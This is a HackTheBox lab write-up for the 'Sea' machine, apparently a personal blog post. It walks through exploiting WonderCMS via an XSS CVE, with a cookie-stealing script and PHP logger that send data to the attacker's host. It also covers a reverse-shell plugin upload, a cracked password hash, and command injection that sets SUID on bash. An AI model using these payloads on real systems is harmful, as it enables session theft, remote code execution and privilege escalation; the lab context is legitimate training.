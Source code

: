 ```yaml
---
layout: post
title: "Sea"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox]
tags: [htb, writeup, linux, web]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/favicons/Hack-The-Box-logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


as always starting with nmap

```bash
sudo nmap -sC -sV -p- -oN sea 10.10.11.28
```
![nmap_sea.png](/source/SEA/Pasted image 20240813000337.png)

another htb box , another website

nothing interesting in the website so , let's move to fuzzing

```bash
feroxbuster  --url http://10.129.115.194 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 500,403,404
```

![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813000823.png)

the license page 
```
MIT License

Copyright (c) 2019 turboblack

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:
```

![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813001042.png)

so we are dealing with WondwerCMS

this CVE is interesting since we are on version 3.2.0 (check http://sea.htb/themes/bike/version) [CVE](https://github.com/prodigiousMind/CVE-2023-41425 )


this script exploit  an xss to steal credential then use this creds to uplaod backdoored files

I will use the same plugins used in this exploit
```bash
wget https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip
```

we need to  change the `rev.php` file on the zip 

```php
$VERSION = "1.0";
$ip = 'UR OWN IP'; // CHANGE THIS
$port = 1337;
```


then I  will host a web server

```bash
php -S 0.0.0.0:80
```

![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813003150.png)

```bash
python3 exploit.py http://sea.htb/loginURL 10.10.14.224 1337
```

we need to find out a way to  send the link to the admin , since the web app is using `php`` let's fuzz for the .php file

```bash
feroxbuster  --url http://10.129.115.194  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 500,403,400 -x php 

```
![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813003629.png)

![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813023000.png)

once we fill the form , with the malicious link in the website field

```url
http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.14.224/script.js"></script><form+action="
```

in the `script.js`
```javascript
new Image().src='http://IP/index.php?c='+document.cookie
```

in the `index.php`
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```


we will get the admin cookie in our web server
![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813023404.png)
changing the cookies , guarantee more privilege in the website , we can now upload plugin

we can install our malicious plugins now , by tampering with the request sent from this button
![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813023604.png)

```HTTP
GET /?installModule=http://IP/main.zip&directoryName=violet&type=themes&token=a5d00073e50332dd0ca6d448d4ccddc9449c7ae27828bb35cee8112d67debd58 HTTP/1.1
```

by visiting http://sea.htb/themes/revshell-main/rev.php

we should get shell on our listener 
![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813024341.png)

this file got my intention
`/var/www/sea/data/database.js`
if we check his content we will find a hash
```
"password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
```

we need to remove the escapers to crack it
```
"password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q",
```

```bash
hashcat -a 0 -m 3200 --show hash                                       
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
```

this password got us  the  user `amay`

another website is running on the port 8080 
```
amay@sea:~$ netstat -ntlp 
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:56005         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080 ---
```

```bash
amay@sea:~$ curl 127.0.0.1:8080
Unauthorized access
```

I will reuse the password of amay
![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813025058.png)

I will forward  the port 8080 to my machine , so I can see what's going on in this website

```
ssh -L 7000:localhost:8080 amay@sea.htb -N
```
 on http://127.0.0.1:7000/
 ![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813025643.png)

I tried to read files , like `/root/root.txt` but that didn't work 
![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813025715.png)
so I tried to inject malicious command 

to confirm that , I will ping myself
first listen on the pings
``
```bash
sudo tcpdump -i  tun0 icmp
```

```http
log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log;ping+-c+1+10.10.14.224&analyze_log=
```

this works
![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813030024.png)

I will run
```
chmod u+s /bin/bash
```

```http
log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log;%63%68%6d%6f%64%20%75%2b%73%20%2f%62%69%6e%2f%62%61%73%68&analyze_log=
```

![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813030229.png)

![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813030247.png)
